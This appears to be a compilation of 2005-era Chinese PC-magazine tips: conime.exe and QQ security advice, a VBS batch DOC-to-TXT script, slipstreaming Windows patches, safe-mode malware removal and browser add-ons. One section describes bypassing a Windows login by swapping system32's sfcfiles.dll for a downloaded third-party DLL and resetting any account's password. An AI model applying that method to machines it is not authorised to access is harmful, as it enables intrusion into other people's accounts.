在网上一搜“conime.exe”，得出的结果为“conime.exe是木马”，完全没有提及正常的系统进程，其实网络上对于conime.exe进程的解释大部分都是错误的，现在我们要为conime.exe洗冤了。实际conime.exe文件名的意思是Console IME，这里的IME就是Input Method Editor，也就是通常所说的输入法，conime.exe就是指控制台模式（即“命令提示符”）下的输入法，它为中文版的Windows 2000/XP等NT内核系统的“命令提示符”提供中文输入功能。conime.exe的功能决定了它只存在于非西方语言的操作系统中，在英文类操作系统中根本不需要在命令行下使用其他输入法辅助输入，因此这个进程在英文类操作系统中被认为是不正常的伪系统进程，而网上的信息参考又大都来源于国外的网站，就造成了几乎所有网站都是提供了这样的错误信息。

#### 3. 解析conime.exe的“木马”特征

证明了conime.exe的清白，可是刚才那些木马特征怎么解释？首先来看看它的自动启动特性，conime.exe进程平时不会运行，所以对于这个进程大家通常都比较陌生。当运行CMD命令打开“命令提示符”时，它就会随之启动，此时按下Ctrl + 空格组合键时就可以看见命令行下的中文输入法被调了出来，在命令行中直接可以输入中文。接下来做个试验，在任务管理器中结束conime.exe进程，返回“命令提示符”窗口，现在再按Ctrl + 空格键，没有任何反应了，当然也就不能再输入中文了。conime.exe进程必须依靠CMD或者其他程序调用才能运行，我们直接运行conime.exe是没有任何反应的，不信的话，你结束conime.exe进程后再单独运行它，在任务管理器进程列表中根本没有conime.exe进程出现。而且当我们退出命令行窗口时，conime.exe进程也不会自动退出，而是一直驻留在内存中，这又会给大家造成一种误判的可能。至于删除后它又自动恢复，那是系统的文件保护功能在起作用，它也是系统中受保护的文件之一，小菜一开始就想着它可能是病毒木马了，早已忘记还有系统文件保护这回事了。病毒木马类的文章看得太多，有点“草木皆兵”了，哈哈。

### 让conime.exe走出你的视线

大家的系统想必都是中文版的，系统中的conime.exe很难确定是否是正常的系统进程了，下面给出比较详细的辨别方法。如果你不能区分，也可以让conime.exe不再随CMD启动，这样对大多数人来说并不会造成影响。

#### 1. 看文件路径和相关信息

真正的conime.exe进程源文件是在System32目录中，而其他利用此名称的病毒木马通常会换个地方，例如前面提到的BFGhost木马确实是使用了conime.exe的进程名，但只要打开“系统信息”，就会发现这个伪装的conime.exe的路径为c:\windows\conime.exe，另外加之这个木马EXE的版本信息为空，就能很快判断出它是假冒的了（见图4）。不过BFGhost木马的清除比较简单，结束进程后删除c:\windows中的conime.exe文件，然后再利用“系统配置实用程序”（运行“msconfig.exe”，Windows 2000没有这个工具，可直接修改注册表中的自启动项）删除其自启动项目即可。


#### 2. 取消CMD和conime.exe进程的关联启动

对于大部分人来说，需要在“命令提示符”下输入中文的机会很少，这种情况完全可以取消CMD与conime.exe进程的关联启动。运行regedit.exe打开“注册表编辑器”，展开[HKEY_CURRENT_USER\Console]主键，在右侧窗格中找到“LoadConIme”键值，双击后将其数据修改为“0”即可。这样conime.exe进程以后就不会再随CMD启动了，如果哪天在进程列表中看到它的身影，那么就一定是病毒木马在作怪了。另外，如果需要在“命令提示符”中使用cd命令进入中文名目录，可以使用Tab键自动完成功能。

小提示：在结束conime.exe进程时，如果它的进程马上自动恢复的话，那么就很危险了，正常的conime.exe进程是不会自动恢复的，很可能是一个具备进程守护功能的木马在运行了。

（软件DIY）

### 让QQ换个嗓子喊

“滴滴滴……”，这只小企鹅习惯了用这种方式来表达自己的“情绪”，可是似乎从99版开始到最新的2005版都始终采用的这个声音，听着都烦了。QQ提供了炫铃服务，能够自定义自己登录、发出消息时在好友QQ上所发出的声音，可是我们不能要求每个好友都花钱去申请QQ炫铃啊，怎么能让QQ换个嗓子喊呢？

使用工具：QQ换音大师3.0
下载地址：http://www.onlinedown.net/soft/35763.htm
第一步：下载QQ换音大师，安装并运行，曾经使用过此软件的朋友会发现最新的3.0版本比以前的版本进步了许多，不仅提供的声音文件多了不少，而且还为我们将声音进行分类，默认情况下软件会自动搜索并添加本地QQ安装目录。
第二步：当需要对某个默认声音进行修改时，只需在左侧选择你中意的声音文件，然后在右边列表中找到要替换的默认声音，最后点右侧的“替换选中的声音按钮”即可完成替换工作。

### 小提示

★ 点击“还原默认的声音”可以将修改后的声音还原回QQ的初始状态。
★ 默认情况下QQ换音大师3.0还用户提供了五款声音风格套餐，可以通过右下角的五个按钮进行切换。

### 救救中毒的小企鹅

QQ密码被盗，好友信息丢失，感染QQ恶意病毒，这些事情都是让我们非常头疼的。现实中确实越来越多的病毒和木马都将眼光放在了QQ软件上，因此QQ感染病毒的机率大增。如何有效的提高QQ的安全呢？我们可以通过QQ病毒专杀工具把病毒与木马“取保候审”，让QQ将安全进行到底。
使用工具：QQ病毒专杀工具XP
下载地址：http://www.onlinedown.net/soft/20919.htm
想当年与QQ病毒做斗争时笔者使用的是QQAV，不过查杀时选择QQ病毒专杀工具有一个最大的要点，那就是时效性。要想查杀效果明显，必须建立在频繁升级病毒库的基础上，但QQAV已经有一年没有更新了，笔者在网上发现了一款杀毒效果更好的软件—QQ病毒专杀工具XP。该软件能够查杀的病毒的种类最多最全，病毒库也是刚刚升级过的，查毒杀毒过程非常方便，运行主程序后直接点“查杀”按钮即可。
QQ病毒专杀工具XP还有一个特别好的功能，那就是注入查杀。他可以在关闭系统关键进程的同时对本地硬盘QQ病毒相关文件进行查杀，有效地防止病毒进程通过注入方式加载，从而将病毒彻底清除。我们还可以在平时通过“QQ尾巴消息屏蔽”和“屏蔽好友发送的病毒”两个功能达到预防病毒的效果。

除了使用QQ病毒专杀工具外，要想有效地防止QQ被黑客盗取，还应养成一些良好的安全习惯：
- ① 在网吧等公共场合使用QQ时应在登录界面中选择“网吧模式”，这样在退出QQ后就自动清除了登录信息和聊天记录，防止了黑客事后对这些数据进行破解。
- ② 在QQ登录框中输入密码时，可以尝试用鼠标定位的方法打乱密码的输入顺序，防止按键记录程序。
- ③ 不要轻易点击好友或群里发来的链接，即使要点也要先和发消息者核实，确定不是QQ尾巴自动转发的。

### 让企鹅拿着大喇叭喊

经常会有一些消息需要同时转发给很多QQ好友，比如一个有趣的网页链接、一段节日的问候语等，要逐一点开好友的聊天窗口实在是太麻烦了。不过好在我们可以使用全新的群发功能，选择“菜单→一键切换到TM”，接着在TM界面中右击某个好友分组（如“我的好友”），选择菜单“对组发消息”，然后就能很方便地群发消息了。
除了这种方法外，在网络中还能找到很多QQ消息群发工具，但是这类工具常常被一些无聊的人恶意利用来发送非法信息，所以就不予介绍了。

### QQ被盗之后，把好友找回来（续）

shtml?psw_ss.htm找回，即使没有“密码保护”，再重新申请一个QQ即可，可是原来的众多QQ好友却都丢失了，这才是真正让你发疯的问题。
第一步：首先必须保证你的电脑中保存着被盗走的QQ的登录记录，也就是说QQ安装目录中包含以这个号码为目录名的子目录，然后登录新申请的QQ号码，成功后关闭QQ。
第二步：将QQ目录下被盗号码命名的子目录的user.db文件复制到新申请号码命名的子目录中，覆盖同名文件。
第三步：登录新号，此时你会发现旧号码中的好友都已经出现在了新号码的好友列表中，不过状态都是“离线”，将他们全选（可使用“Ctrl + A”或Shift完成全选）后拖动到“陌生人”组里，在弹出的N个确认框中一路点击“确定”直至这些好友被全部删除。
第四步：将陌生人中的好友全选，再拖回到“我的好友”中，仍是对N个弹出窗口逐一确认直至完成所有好友的添加。

#### 小提示
MSN也能完成好友的转移，通过“联系人”菜单导出CTT文件后，在新的MSN账户登录后再通过此菜单将其导入即可。

## 远离等待，把DOC都变成TXT

### 最正统的解决之道：文档转换向导

Word“另存为”命令就可以将DOC格式的Word文档转换为TXT文本文档，但需要逐个打开DOC文档，效率太低。如果想要不打开文档就实现批量转换，Word自带的“转换向导”就可以胜任。以下以Microsoft Office Word 2003为例，其他版本操作步骤基本相同。

第一步：启动Word 2003，选择菜单“文件→新建…”，在窗口右侧的“新建文档”任务窗格中单击“模板”栏的“本机上的模板…”（见图1）。

第二步：弹出“模板”对话框，单击“其他文档”选项卡，双击其中的“转换向导”图标，单击“确定”（见图2）。然后在弹出“转换向导”对话框中单击“下一步”，接着单击选中“从Word文档格式转换为其他文件格式”，在“下拉”框中选择“纯文本”，单击“下一步”。





第三步：单击“源文件夹”右侧的“浏览”，选择需要转换的DOC文档所在的文件夹，比如“F:\MyDocs”，单击“目标文件夹”右侧的“浏览”按钮，选择一个用于保存转换后TXT格式文件的文件夹，可以与源文件夹相同，然后单击“下一步”。

第四步：逐个双击“可用文件”列表框中文件名，或者单击“全选”，选中需要转换的文档。同时可以逐个双击“转换文件”列表框中文件名，或者点击“全部删除”，撤销选中的文档，单击“下一步”，最后单击“完成”开始转换选中的文档。

### 不用打开Word：用VBS代替收费软件

每次转换都需要先运行Word，然后用一大堆操作才能完成转换，有没有更加简便的方法？你可以借助收费的共享软件“batconv批量转换专家”（下载地址：http://www.onlinedown.net/soft/40398.htm，未注册版本不支持批量转换）来实现，现在就教你不花一分钱自制一款批量转换工具。

首先打开“记事本”，输入以下代码并保存为BatchDoc2Txt.vbs（可从 http://www.newhua.com/cfan/200520/batchdoc2txt.rar 下载），可存放在任意文件夹。

```
Const wdFormatText = 2
myDocDir = InputBox("请输入Word文档源文件夹:","批量转换文本文件")
Set fsObject = CreateObject("Scripting.FileSystemObject")
If Not(fsObject.FolderExists(myDocDir)) Then
    MsgBox myDocDir & "源文件夹不存在, 程序终止。", vbCritical, "错误"
    WScript.Quit
End If
If InStrRev(myDocDir, "") < Len(myDocDir) Then
    myDocDir = myDocDir & ""
End If
Set DocFilesDir = fsObject.Getfolder(myDocDir)
Set myDocFiles = DocFilesDir.Files
Set myObject = Wscript.CreateObject("Word.Application")
For Each DocFile In myDocFiles
    If Right(DocFile.Name, 3) = "doc" Or Right(DocFile.Name, 3) = "DOC" Then
        TextFilePathAndName = myDocDir & Left(DocFile.Name, InStrRev(DocFile.Name, ".") - 1) & ".txt"
        myObject.Documents.Open DocFile.Path,,,,,,,False
        myObject.Documents(DocFile.Path).Activate
        myObject.ActiveDocument.SaveAs TextFilePathAndName, wdFormatText
        myObject.ActiveDocument.Close
    End If
Next
myObject.Quit
Set myObject = Nothing
```

然后在桌面上为这个VBS文件创建一个快捷方式，双击运行后只需输入需要转换的DOC文档的源文件夹，单击“确定”即可完成转换。

注意：运行本脚本文件不能同时运行Word程序，脚本中“,,,,,,,,”共有11个逗号不能缺少，此VBS脚本在Windows XP SP2 + Microsoft Office Word 2003下测试通过。

### 把便捷装进右键菜单：右击DOC打开TXT

如果能右击DOC后直接打开转换好的TXT，那样岂不是更方便？

第一步：可从 http://www.newhua.com/cfan/200520/word2txtex.rar 下载代码并解压；然后将其中的word2txtex.vbs放在C:\下（也可放在其他目录，但应与下文中的设置相对应）。

第二步：打开“我的电脑”，选择菜单“工具→文件夹选项”，在弹出窗口中选择“文件类型”选项卡，在“已注册的文件类型”列表中选中扩展名“DOC”，点击下方的“高级”按钮，在弹出对话框中点击“新建”按钮，在弹出对话框的“操作”输入框中输入要显示的菜单名字，在“用于执行操作的应用程序”中输入如下内容（路径根据VBS文件实际所在位置更改）：“wscript.exe c:\word2txtex.vbs %1”

点击“确定”保存我们的所有设置。然后对任意Word文档进行右键单击，在菜单中选择我们的“文本转换”，就可以直接转换Word文档，并自动使用记事本打开。

（张宗闯 崔彦锋）


## 自制Windows超级SP包，从此告别缝缝补补

懒得系统维护？那就只有定期重装系统了。但重装后那N个补丁的安装过程，实在令人头痛。自动更新功能虽然步骤较少，但网速不怎么快的朋友还是会选择把所有补丁下载到本地（批量下载所有补丁的方法请参考本刊2004年第7期《紧跟微软的步伐》），重装后逐一运行。有没有方法可以给Windows的安装文件打上这一大堆补丁？这样每次重装完就不必再费力打补丁了。答案当然是肯定的，而且只用系统自带的功能就能做到。

## 你的Update.exe版本够高吗

不知道大家发现没有，其实每一个更新补丁都是一个压缩文件，MS只是把一些需要修改的系统文件打包成一个EXE自动解压的安装文件而已，当用户将补丁文件下载到本地后，双击就可以安装了，整个过程并不需要我们去干预。如何执行自动安装，关键命令就是压缩包里面的Update.exe或Hotfix.exe。通常不同补丁，Update.exe的版本可能有所区别，而Update.exe的开关参数就有可能不一样。开始前我们必须查看一下Update.exe是否是5.4.15.0之后的版本。

首先运行CMD打开“命令提示符”窗口，使用CD命令进入补丁所在目录，假设名为KB123456.exe（实际文件名比较长，此处为方便介绍做了简化）的补丁包在D:\，我们可以在“命令提示符”窗口中执行“KB123456.exe /X: D:\KB1”命令将其解压至D:\KB1目录中。然后打开解压目录D:\KB1，在其中的update目录中就能找到update.exe文件了。右击该目录中的Update.exe文件选择“属性”，在“版本”选项卡中查看“文件版本”的值。如果版本号为5.4.15.0或更高版本，就说明这个补丁包支持本文所用到的开关参数。

-   想知道补丁包支持的命令参数，可以执行“补丁EXE文件名 /help”。
-   其中将更新整合到位于指定路径的Windows安装源文件中所需要的update.exe开关为“/integrate:path”，“path”指包含i386文件夹的文件夹，版本要求为5.4.15.0版本和更高。

## 将补丁集成到安装源文件中

确定Update.exe版本后，接着就是将其集成到Windows安装源文件中。本文以Windows XP SP2作为安装源文件，集成新的补丁包。

第一步：将Windows XP光盘插入光驱，然后将光盘中的内容复制到硬盘任意目录中，比如D:\WinXP。

第二步：我们要将KB123456.exe文件集成到位于D:\WinXP文件夹中，可以执行命令“KB123456.exe /integrate:D:\WinXP”。稍等片刻，如果要集成的补丁的语言以及所需Service Pack级别（有很多补丁要求系统已经安装了某个版本的Service Pack）符合的话，系统就会提示集成安装成功，否则会提示错误。

第三步：用同样方法可以集成更多更新补丁。如果补丁数目太多，可以通过批处理文件来进行集成安装。假设将所要集成的补丁放在D:\hotfix目录下，接下来编写一段比较简单的批处理文件（保存为buildcmd.bat，放在补丁所在目录D:\hotfix下）：

```
@echo off
for %%f in (*.exe) do @echo %%f /integrate:D:\WinXP /quiet>>pack.bat
```

执行后，在补丁目录下就会生成一个pack.bat文件，运行后所有补丁就会集成到D:\WinXP目录下的安装文件中。

通过上面操作，我们已经把新的补丁集成到安装源文件中了，接下来就可以用UltraISO、WinISO等光盘镜像软件制作ISO文件，然后刻录到光盘上即可，详细请查阅本刊2004年第1期的《告别死气沉沉的安装程序》。

## 几个注意事项

-   1. 微软在2004年7月后发布的程序包基本都使用新版的Update.exe作为安装引擎，所以对于2004年7月以后所发布的补丁不需要检查其引擎。
-   2. 通过此方法集成的补丁，系统不会正确创建Filelist注册表项。例如，如果将KB824146安全修补程序集成到Windows 2003安装源文件中，则系统不会正确创建[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Updates\Windows Server 2003\SP1\KB824146\Filelist]的注册表值的，不过系统还是会在“添加或删除程序”控制面板中为每个更新添加一个条目，但对应“删除”按钮是不可用的，这是为了系统不再要求重复安装同样的补丁。
-   3. 安装程序检查当前使用的Service Pack版本，如果Service Pack版本低于软件更新版本，但是不低于软件更新指定的最低版本，并且语言相同，则安装程序将自动安装软件更新，反之则不会继续安装。

## 管好你的“任务管理器”

你在何时会用到“任务管理器”，大多数人恐怕只有杀毒和某个程序假死时才会使用这个系统工具。如果仅仅是这样，那就实在是没有管好你的“任务管理器”，看看下面的几招。

## 给“任务管理器”添加更多查询功能

很多进程相关的第三方应用程序都需要使用进程的PID作为参数，但“任务管理器”的进程选项卡里却偏偏找不到这个PID值。无需借助第三方工具，我们可以给“任务管理器”添加这项功能：在“任务管理器”中打开“进程”选项卡，选择菜单“查看→选择列”，在弹出窗口中勾选“PID（进程标识符）”点击“确定”即可（见图1）。如果你想得到某个进程的详细路径，可以使用系统工具中的“系统信息”，查看其中的“软件环境→正在运行任务”。

## 解决CS 1.5“失声”的问题

在CS（反恐精英）1.5中，一旦不小心按了Win键或意外调出了输入法，就会从游戏中弹出到桌面状态。大多数情况下只需点击任务栏中CS任务就能切换回游戏中，可这样做之后在游戏中就听不到任何声音了。利用“任务管理器”同样可以解决这个问题：在“任务管理器”的“应用程序”选项卡中，双击“Counter-Strike”即可。

## 看电影不再卡机

“任务管理器”的进程优先级功能平时可能无用武之地，但如果你的电脑硬件配置较低或者同时打开了多个应用程序造成了系统缓慢，那么在观看电影时就有可能遇到时断时续的卡机现象。此时同样是打开“进程”选项卡，右击播放器的进程（如wmplayer.exe），选择“设置优先级→高”，这样一般就能解决卡机现象了。

## 谁“黑”了我的“任务管理器”

有很多网友都遇到过一个奇怪的现象，“任务管理器”边框奇怪地“失踪”了（见图2），难道是被“黑”了？其实此时只需双击“任务管理器”界面的空白处就能恢复到原来的状态，同样地，再次双击则会进入无边框状态。

包含映像名称、用户名、CPU、内存使用等列的进程列表。

## 组合键快速打开“任务管理器”

在Windows 98中可以使用Ctrl + Alt + Del直接打开“任务管理器”，可到了Windows 2000/XP后就不能这么做了，还需要在弹出的窗口中点击一下，在系统缓慢的时候要这样打开“任务管理器”实在太不高效，不如试一下新的快捷键Ctrl + Shift + Esc。

（阿当）

## 一个DLL让密码形同虚设

Windows的密码丢失实在是件令人头疼的事，尽管可以使用ERD Commander等工具启动并修改密码，但要下载这些庞然大物也需要很久，而利用其他的方法又太繁琐，用DreamPackPL生成的一个DLL来解决吧！

第一步：从http://www.newhua.com/cfan/200520/sfcfiles.rar下载并解压这个DLL文件，然后使用DOS启动盘（如果分区为NTFS，则需要下载支持NTFS的启动盘）启动计算机，用ren命令将C:\windows\system32目录下的sfcfiles.dll改名为sfcfiles.lld（此处注意不要改为其他文件名，否则下面的步骤中无法恢复此文件），接着将刚才下载的sfcfiles.dll复制到C:\windows\system32目录。

第二步：重新启动计算机，在出现登录界面时，你会看到一个DreamPackPL的界面（见图），点击其中的Details按钮，在出现的用户密码窗口中选择相应的用户，然后点击“重设密码”以设定新的密码。

第三步：再次重启，去除DreamPackPL界面中“DreamPack”的勾选，提示“Uninstall DreamPack?”，点击“是”后系统就会自动恢复原来的sfcfiles.dll，下次启动时就不会再出现DreamPackPL界面了，现在用新密码登录即可。

（日月双星）

## 让IE免费变身Firefox

Firefox 相信许多朋友都在用，它具备标签式多页面浏览、集成搜索引擎、广告过滤等功能，加上强大的安全特性，成为IE强有力的对手。也难怪，IE在功能上一直没有大的改进，不过现在我们可以通过安装一款叫做 Foxie 的免费插件程序，让IE也具备多页面浏览、广告过滤、集成搜索功能；同时软件还提供了专为IE定制的安全防火墙、间谍软件检测清除工具和隐私历史记录清除工具等，把IE打造为拥有FireFox强大功能和IE最好兼容性的强悍浏览器。

## Foxie 小档案

| 项目 | 信息 |
| :--- | :--- |
| 软件版本 | 1.1.0 |
| 软件大小 | 1430KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 9x/2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/42140.htm |

## 安全高于一切

Foxie 集多种安全措施于一体，可以为IE提供最强大的安全保护功能。

-   **1. 反间谍扫描**
    Foxie在安装后会询问你是否在线更新数据库并扫描电脑中的有害程序，如果你没有进行更新和扫描，也可以在安装后单独运行。首先要在开始菜单“Foxie Suite”程序组中选择“Secure Update”在线更新扫描数据库，单击“Check for Updates”按钮即可检查并显示可用的更新数据，选中后单击“Install Updates”按钮即可下载并安装扫描数据库。然后再选择“Swift Sweeper”即可打开反间谍程序，单击“Start”按钮就可以扫描并显示出电脑中存在的广告软件、间谍软件等恶意程序，虽然笔者的电脑有层层防御，但还是有漏网之鱼，发现了一个叫做“Search Hijacker”的恶意程序，选中它后单击“Remove”按钮即可自动清除这个恶意程序了。
-   **2. IE安全防火墙**
    Foxie安装结束后，我们在系统托盘中可以看到一个新增图标，这就说明Foxie的安全防火墙在工作了，而且它可以随IE自动启动。右键单击这个图标，可以看到它提供了三种防护选项：Spyware & Adware Blocker On 表示阻止间谍软件和广告软件；Spammers & Scammers Blocker On 表示阻止垃圾邮件制造者；Worms & Exploits Blocker On 表示阻止蠕虫和漏洞利用攻击，默认情况下这三个选项都是选中的，可以为IE提供坚固的安全屏障。
-   **3. 隐私历史记录清除**
    在“Foxie Suite”程序组中选择“Privacy Cleaner”可以打开Foxie的记录清除工具，它可以对Browsers（浏览器）、Windows（系统）、Applications（应用程序）操作中留下的历史记录、隐私数据进行清理，我们只需选择要清除的选项，单击“Clean”按钮即可开始清除。而且Foxie还有一个独特的设计，我们可以单击“Preview”按钮预览将要被清除的数据和文件，而且它会显示出清除记录后释放的磁盘空间，做到心中有数。

## 方便的随意搜

Foxie 安装后会在地址栏右边添加一个超级搜索，输入关键词后单击“Search”按钮可以选择进行网页搜索、新闻搜索或者图片搜索，不过它并不支持中文关键字搜索，有些遗憾。但这里有个功能倒是很实用的，在搜索栏中输入关键词后选择“Highlight Search Term”，可以在当前页面中以黄色高亮显示输入的关键词，这个功能与IE的查找功能类似，但使用更方便，而且完全支持中文。

Foxie还具有和Google类似的桌面搜索功能，可以对电脑中的文件进行搜索；不过默认情况下桌面搜索是关闭的，单击Foxie搜索关键词栏左边的按钮可以打开 Foxie Control Panel，也就是参数设置控制面板，选中“Enable Desktop Search”选项，然后重新启动电脑即可使桌面搜索功能生效。

Foxie桌面搜索的使用与网络搜索类似，单击“Search”按钮，选择“Desktop Search”→“All Documents”即可打开桌面搜索页面，输入关键词后单击“Search”按钮即可显示出搜索结果，而且搜索结果可以按照Rank（归类）、Title（标题）、Path（路径）、Size（文档大小）、Date（日期）进行排序，同时，我们还可以单击页面上面的“Documents”（Office文档）、“Web Pages”（web网页）、“Images”（图像）、“Music”（音乐）和“Video”（视频）链接，显示分类搜索结果。

小提示
Foxie的桌面搜索数据来自系统索引服务建立的数据库，因此要求你的电脑没有关闭索引服务。关于索引服务的使用可以参考微软知识库 http://support.microsoft.com/kb/308202。

## 标签式多页面浏览

IE使用中最让人不爽的就是一个页面一个窗口的浏览方式，尤其是在打开大量页面时，任务栏里一堆 IE 按钮，切换页面很不方便。安装Foxie以后，在IE地址栏下面就可以看到多页面标签栏了，最右边有两个按钮，“+”按钮可以快速创建新页面，“×”按钮可以快速关闭当前浏览页面。在页面标签上单击鼠标右键，选择“Open new Tab”也可以打开新的标签页面，选择“Close All Tabs”则可以快速关闭所有打开的标签页面。

Foxie还通过与标签结合，设计了网页组功能，可以让我们对常用的网址进行有效管理。首先我们要右键单击标签，选择“Delete Groupmark”删除软件自带的无用网页组，然后再选择“Add this Tab to Groupmark→Create New Groupmark”创建新的网页组，打开经常浏览的网页，在标签右键菜单中选择“Add this Tab to Groupmark”将其添加到相应的网页组中，以后只需要在标签右键菜单中选择“Open Groupmark”，就可以快速打开某个网页组中收藏的所有网址，非常方便。

## 只有我要的——广告过滤

Foxie的广告过滤功能非常强大，不仅可以过滤弹出窗口广告，而且能过滤网页内嵌的图片广告以及Flash广告，不过Flash广告过滤功能默认是关闭的，我们需要打开Foxie Control Panel，选中“Block Flash and Shockwave Movies”选项，这样浏览网页时Flash位置将会显示为“Flash Blocked”，如果想查看广告，也很容易，单击一下这个广告即可。而且笔者发现它的内置广告过滤准确率比较高，一些小广告可以非常准确地过滤掉，而网页中的正常图片却能照样显示。

小提示
为了方便操作，Foxie还提供了快捷键功能，在设置面板中单击“Hotkeys Control”可以设置新建标签页、关闭标签页、切换标签页、网页组设置、快速搜索、高亮搜索关键字等六个常用功能的快捷键，快捷键的设置也很简单，直接在下面的虚拟键盘上点击你要设置的快捷键即可。

(新蔡一高 马德春)

## “命令行的安全模式”抢救崩溃系统

## 一个小命令解朋友之难

系统出现故障时，往往让人手忙脚乱，心急的人往往把心一横就格了盘重装系统了。朋友的笔记本电脑这几天出了故障，进系统奇慢，很多程序无法运行，桌面呈假死状且鼠标指针狂闪，与进程相关命令都被屏蔽……显然，这是一个恶意程序或病毒在作怪。可偏偏朋友的电脑是笔记本，并且原厂提供的系统光盘是那种全硬盘恢复（不管是系统分区还是其他分区一律覆盖）的 Windows 系统光盘，这可把朋友急坏了，D 盘里还有重要数据没有导出呢！

首先尝试着进入系统后杀毒，但系统里原来安装的诺顿即使升级了病毒库，仍然对系统中可能存在的病毒“熟视无睹”，看来不能依靠它了。局域网、USB 存储设备均被屏蔽，幸好这台笔记本内置了光驱，刻了一张杀毒工具盘后逐一测试仍未解决，后来不知谁提了一个建议：既然不能重装，那何不试试“系统还原”？点击“开始→程序→附件→系统工具→系统还原”，却没有弹出“系统还原”的界面，但进程却在“任务管理器”中了。

无奈，只好重启按F8进入了“安全模式”，没想到病毒着实厉害，在“安全模式”下表现与刚才没什么区别。于是又找来一张 Windows XP 安装光盘，用它启动后根据提示进入了“故障恢复控制台”，想使用命令行执行“系统还原”，但“故障恢复控制台”只支持一部分限定命令。

原来以为拯救无望，可朋友不经意的一问却给了我很大的启示：刚才按 F8 时有这么多选项，试试别的呢？选了“带命令行的安全模式”，进入系统后出现一个“命令提示符”窗口，使用“cd c:\windows\system32\restore”命令进入“系统还原”所在目录，执行“rstrui.exe”命令，成功打开“系统还原”向导，根据提示将系统还原至出故障前的状态即可。

## 实践出真知

-   **1. 最好开启“系统还原”**
    许多系统优化技巧都会提到，在安装完 Windows XP 后，将“系统还原”关闭，但通过上面故障排除实例中可以看出，在许多危急情况下，“系统还原”可以让你回天有术。另外，提醒大家“系统还原”可能会导致还原点时间之后建立的个人文件丢失。建议只设置 C 盘系统还原，如果要精确到目录级，请参考本刊2005年第15期《擦亮你的月光宝盒——玩转系统还原高级设置》。
-   **2. “带命令行的安全模式”是什么**
    它的功能和“安全模式”的功能几乎完全一样，惟一不同的是系统将加载命令行提示窗口，而不是资源管理器窗口，在此模式下，可利用命令行进行操作。只有同时按下 Ctrl + Alt + Del 组合键，选择“关闭”，才能退出。
    在这种模式下，如果不小心关闭了命令提示符窗口，屏幕会全黑。可按下组合键 Ctrl + Alt + Del，调出“任务管理器”，单击“新任务”，再在弹出对话框的“运行”后输入“C:\WINDOWS\explorer.exe”，可马上启动 Windows XP 图形界面。如果输入“c:\windows\system32\cmd”也能再次打开命令提示符窗口。

## 实例1：解决回收站无法清空

在 Windows XP 中，有时删除了一个文件，但自此回收站中的内容无法清空，每次打开回收站时它总先搜索一遍，然后在清空回收站时显示一个确认删除对话框，选“是”后清空，再次打开回收站时又出现了上述情况。

这时你可以“带命令行的安全模式”下，然后对每一个分区下的 Recycled 目录执行“Attrib -s -r -h”命令去除特殊属性，然后使用 Del 命令删除每一个分区下的 Recycled 目录。操作完毕后重启进入正常模式，问题一般即能解决。

## 实例2：正常模式下不能删除木马程序

某些时候，不能通过杀毒软件删除木马程序也不能手动删除木马文件。因为文件被系统锁定，所以不能删除。此时可以进入“带命令行的安全模式”，根据扫描程序的提示找到木马文件所在位置，执行“Del 命令”即可删除。如果该文件的属性为只读、隐藏或系统属性，需要先用“Attrib -s -r -h 文件名”命令去除特殊属性，然后删除即可。

## 实例3:拯救被间谍程序弄崩溃的系统

系统时常意外崩溃，并伴有蓝屏信息提示“*** STOP:0x00000050 (0xeb7ff002, 0x00000000, 0x8054af32, 0x00000001) PAGE_FAULT_IN_NONPAGED_AREA nt! ExFreePoolWithTag+237”，重启后在“事件查看器”中可以找到ID 1003的事件条目，经过网上搜索怀疑是感染了间谍程序msupd5.exe、Reloadmedude.exe，而它们的Rootkit自我保护技术造成了系统的崩溃。

- 第一步: 在“资源管理器”中打开目录%windir%\system32\drivers，在菜单“工具→文件夹选项”中启用查看系统、隐藏文件的选项。在目录中按F5刷新，然后查找文件名是8位随机小写字母的SYS文件，如: gbqxmhia.sys、upzvibvv.sys、jsbmefvk.sys。
- 第二步: 右击找到的可疑文件，选择“属性”，如果文件日期为2005年1月11日，文件大小为14KB（13824字节），文件属性为“隐藏”，没有版本、产品名称或制造商信息，那么就基本符合了此间谍程序的特征。
- 第三步: 转到目录%windir%\system32，搜索msupd*.exe和Reloadmedude.exe这两个文件（其中*为随机数字），如果找到了符合要求的文件且文件大小为60KB（61440字节），那么你的电脑已经感染了此间谍软件了。
- 第四步: 重启按F8进入“安全模式”，在“资源管理器”中打开目录C:\WINDOWS\system32\drivers，确保已经打开了显示隐藏、系统文件的选项，然后用刚才的排查法找出可疑的SYS文件删除（建议删除前备份到别处）。打开目录C:\WINDOWS\system32，删除其下刚才找到的msupd*.exe和Reloadmedude.exe，完成后重启并用最新版的杀毒软件进行一次完整的硬盘扫描。如果连“安全模式”都进不去，就可以试一下“带命令行提示的安全模式”了，注意: 在用del命令删除文件前必须先用“attrib -s -h 文件名”命令去除恶意程序文件的“系统”和“隐藏”属性。

（李冉）

## 30 元！包月无线上网 补遗篇

看了14期的《30元！包月无线上网》一文后，亲自测试了一下，终于也体验了一把无线的快感。但使用过程中也发现了一些缺憾:

- 1. 用Opera浏览网页时发现有很多网页无法正常打开或显示。
- 2. 下载文件的大小受限制。
- 3. 上QQ等即时通讯软件时经常掉线。

笔者经过实验，找到了前面两个问题的完美解决方法，写出来与各位刚用上廉价无线包月不久的朋友分享。

本文测试环境: 重庆移动GPRS 20元包月套餐

## 找来强悍的狐狸，让Opera下岗

第一个问题主要是由于Opera的网页解析存在兼容性差异造成的，因为大家使用IE的习惯早已经根深蒂固，所以各家网站的设计者也理所当然地在网页代码编写时过多依赖了微软的自定标准。这样做虽然对于世界上90％的计算机来说都没有问题，但对于那些使用第三方浏览器的计算机来说，却会造成网页的浏览兼容性问题。Opera正是这小部分“不受眷顾”的浏览器之一，但有些第三方的浏览器已经考虑到了这些问题，并且通过不断修正已经将兼容性提高了很多，比如Firefox……

从http://www.onlinedown.net/soft/3598.htm下载并安装Firefox 1.07（建议不要下载1.5Beta版本，1.07比较稳定），要正常显示所有网页还必须安装其对应的FlashPlayer 7.0的插件，无需特意找下载地址，只需登录一个含有Flash元素的网站，比如猫扑，Firefox的网页显示框上端就会出现一个淡黄色的横条，并提示“您需要其他插件以显示此页面的所有媒体”，点击横条右侧的“安装缺失插件”按钮，然后根据提示一路点“下一步”，Firefox就会自动下载并安装好所需的插件。

